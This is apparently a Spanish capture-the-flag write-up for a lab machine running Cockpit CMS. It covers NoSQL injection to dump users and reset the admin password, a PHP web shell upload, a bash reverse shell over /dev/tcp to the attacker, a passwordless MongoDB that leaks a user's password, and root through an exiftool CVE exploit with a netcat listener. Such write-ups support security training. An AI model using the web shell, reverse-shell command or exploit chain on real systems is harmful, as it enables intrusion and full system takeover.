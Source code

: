 ### Tags: ``NoSQL``  `RCE` ``exiftool`` ``mongo``

# Escaneo(*22, 80*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/7c1faa27-2654-4b6a-b92e-a3f9f62adda4)

# Port 80

Las web tiene un **panel de login**, intentamos inyecciones SQL pero nada

![image](https://github.com/user-attachments/assets/bb4c2a29-4f9e-48c0-834a-bd0bd9988ba0)

Haciendo `Ctrl + u` encontramos la versión del CMS 

![image](https://github.com/user-attachments/assets/2a0d6248-3e8d-477e-b6db-81cf6aa950da)

 Buscando en Google --> [Link](https://swarm.ptsecurity.com/rce-cockpit-cms/) encontramos que este CMS cockpit tiene algunas **vulnerabilidades** ``NoSQL`` que se pueden utilizar para volcar la **información de los usuarios**, lo que hacemos es interceptar la petición con `BurpSuite`

 ![image](https://github.com/user-attachments/assets/eca60d91-558f-4947-b6c7-2395ccc75ff0)

- Ahora vemos que genera un **token CSFR** para la autenticación y podemos ver los **nombres de usuarios** usando el operador ``$func`` de la biblioteca MongoLite. 
	- Obtuvimos 4 nombres de usuarios 

![image](https://github.com/user-attachments/assets/bbe75d12-f0ef-44b6-8891-9149c4740144)

# Inyección NoSQL en */auth/resetpassword*

Ahora la funcionalidad de restablecimiento de contraseñas se realiza mediante restablecimientos de token en `/auth/resetpassword`:

![image](https://github.com/user-attachments/assets/3ef995dd-7e5d-4828-ad92-0a88bb8fe42e)

###  Compromiso de cuenta de usuario

Ahora puedo volcar las credenciales del usuario cuyo token se ha creado ingresando a `/auth/newpassword` el token:

![image](https://github.com/user-attachments/assets/9a0c494c-2c5c-4273-87c3-f122286d4d3d)

- Con estos datos , ``--->`` nosotros vamos a poder cambiar la contraseña de administrador e iniciar sesión en la página de ``CMSpit``.
	- 1. Utilizar la aplicación con la clave API.
	- 2. Obtener por fuerza bruta la contraseña de la cuenta a partir del hash.
	- 3. Cambiar la contraseña de la cuenta utilizando el `/auth/resetpassword` método:

![image](https://github.com/user-attachments/assets/9985b0b9-fb47-45bc-bc79-3713d4fcc756)


# Dentro de la Web

Como vemos ahora estamos dentro de la web como el usuario `admin:test123`

![image](https://github.com/user-attachments/assets/e6e738ef-338f-45cf-81fe-1b4687079ba0)

## RCE

Una vez dentro de la cuenta de **administrador**, lo que podemos hacer es cargar un shell web utilizando el componente **Finder** estándar de Cockpit para conseguir la ejecución remota de código:

![image](https://github.com/user-attachments/assets/dd53676d-d49f-4f87-acbc-791a6b92676a)

Antes nos creamos este ``shell.php`` en la terminal para después subirlo

```php
<?php
        echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

Una ves subido ponemos la `http://<ip>/shell.php?cmd=id`

![image](https://github.com/user-attachments/assets/0c1234fe-de48-4d4a-8c55-0c0ab61d18d6)

Nos mandamos una ReverseShell ---> `http://<ip>/shell.php?cmd=bash -c "bash -i >%26 /dev/tcp/<IP>/443 0>%261"`

![image](https://github.com/user-attachments/assets/6db8c1d9-a585-4adb-858a-7b293a970a52)

# Escalada (``stux``)

Con este comando `ss -ntulp`   enumero **puertos internos**  y vemos que en este puerto corre **MONGO**

![image](https://github.com/user-attachments/assets/48b814c7-fd39-43b6-bbed-5af7113e25c4)

Tratamos de conectarnos *sin proporcionar contraseña* y tuvimos éxito, ejecutando `mongo`en la terminal.

![image](https://github.com/user-attachments/assets/25c7c203-7318-4659-929f-dce49a2d1078)

Listamos las bases de datos disponibles con `show dbs`, `use sudoersbak` para acceder, `show collections;` para listar las tabas y por ultimo `db.flag.find();` para leer el contenido de la tabla.

![image](https://github.com/user-attachments/assets/cdf50aef-f631-4412-854d-59c379574357)

Encontramos la contraseña del user `stux:p4ssw0rdhack3d!123`

![image](https://github.com/user-attachments/assets/1648eddc-98df-4e7d-9a16-f8ee37b6c3be)
![image](https://github.com/user-attachments/assets/c265100a-5212-44b3-9e91-a9d19251022b)

# Escalada ``ROOT``

Haciendo `sudo -l` podemos ejecutar **exiftool** como root . ---> (me conecte por ssh como stux porque tuve que reiniciar la máquina)

![image](https://github.com/user-attachments/assets/f8dcaee5-25b1-4c3d-a121-dac6fd1ee980)

Buscando en Google de como escalar a root encontramos este [EnlaceExploit](https://github.com/convisolabs/CVE-2021-22204-exiftool), básicamente lo que tenemos que hacer es:

```ruby
git clone https://github.com/convisolabs/CVE-2021-22204-exiftool.git
cd CVE-2021-22204-exiftool
```

Una ves clonado y dentro del repo tenes que instalar esto: ``-->`` (si te llega a dar **error** como ami, hace un  `sudo apt-get update` y lo instalas)

```ruby
sudo apt install djvulibre-bin exiftool
```

Ahora lo que haces es en la terminal, **te abrís el archivito** llamado `exploit.py` y editas el script poniendo tu **IP** y el **puerto** de escucha que quieras, una ves hecho eso lo ejecutas en la terminal así:

```bash
python3 exploit.py
```

Automáticamente se te crea una imagen llamada `image.jpg`, lo que haces es transferirte esa imagen a la máquina victima de esta forma:

```bash
#máquina atacante
python3 -m http.server

#máquina víctima
wget http://<IP>/image.jpg
```

Una ves que se transfirió la imagen, abrís otra terminal para ponerte en escucha con `netcat` por el puerto especificado, ejecutas con sudo el binario:

```bash
#máquina atacnte 
nc -nlvp <puerto_especificado>

#máquina víctima
sudo /usr/local/bin/exiftool image.jpg
```

![image](https://github.com/user-attachments/assets/b7948fc2-dec3-4afe-bc7c-93767f79f074)

Y listo somos !**ROOT**!

![image](https://github.com/user-attachments/assets/2f2f323c-2c12-40e9-b24f-643865b8fe27)
















